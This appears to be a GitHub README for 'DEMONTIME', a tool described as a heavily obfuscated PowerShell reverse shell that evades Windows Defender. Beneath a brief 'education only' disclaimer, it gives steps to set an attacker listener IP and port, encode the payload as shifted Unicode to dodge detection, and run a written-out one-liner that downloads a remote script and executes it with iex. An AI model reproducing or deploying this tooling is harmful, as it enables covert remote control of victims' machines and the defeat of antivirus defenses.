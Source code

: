 <h1>DEMONTIME</h1>

<h3>Heavily obfuscated PowerShell reverse shell that can bypass Windows Defender</h3>

![image](https://github.com/aaronquiamco/demontime/assets/59388557/5958a915-6c07-42d4-8dda-dcc14cd0d9b4)



⚠️ Disclaimer: Employing the methods and principles outlined in this repository to obtain unauthorized entry into systems without proper authorization is against the law. You are accountable for your conduct. Act responsibly and refrain from engaging in malicious activities. This is for education purposes only


<h2>Instructions</h2>

1. Edit the Obfuscated PowerShell reverse shell one liner script with your chosen listener IP Address and Port number.

   
![image](https://github.com/aaronquiamco/experiment/assets/59388557/2f24cc8b-af55-429a-a7ac-97786da28d29)

2. Use the Python script to convert the PowerShell reverse shell one liner characters to its Unicode format. Every unicode decimal on the output already has +10 added from its original form. The PowerShell script (demontime-template.ps1) will then subtract 10 on each of those unicode from the array to convert it back to its original unicode form.


![image](https://github.com/aaronquiamco/experiment/assets/59388557/ad971d49-e938-491b-92d8-27838499b5fa)

3. Replace the Unicode payload on the demontime-template.ps1 script with the output generated from the Python script.

**NOTE: You can also use the Obfuscated PowerShell reverse shell one liner template alone if you wanted to. This also bypasses Windows Defender but if you wanted to add more obfuscation, you can convert the characters to unicode using the supplied Python script.** 

**Optional**

Fork this repo so you can run the following one liner with your own IP Address and Port number straight from Github:


**NOTE: Replace the URL with your own forked repo.** 

```iex -Debug -Verbose -ErrorVariable $e -InformationAction Ignore -WarningAction Inquire (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/xxxxxxx/demontime/main/demontime-template.ps1')



![image](https://github.com/aaronquiamco/demontime/assets/59388557/e651c43a-6868-4124-ba6f-d3beaaf192bb)
